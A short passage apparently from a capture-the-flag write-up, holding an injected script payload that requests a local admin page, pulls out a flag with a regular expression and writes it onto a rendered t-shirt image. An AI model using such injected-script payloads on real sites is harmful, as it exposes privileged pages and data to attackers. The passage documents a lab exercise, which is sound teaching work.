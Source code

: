 ![hackerts5](./images/hackerts5.png)

Or if you know the format of the flag, you can just parse the response text with RegExp and print it on the t-shirt

```html
<script>
  regex = RegExp("flag{[a-z0-9]*}");
  x = new XMLHttpRequest();
  x.onload = function () {
    document.write(x.responseText.match(regex)[0]);
  };
  x.open("GET", "http://localhost:5000/admin");
  x.send();
</script>
```
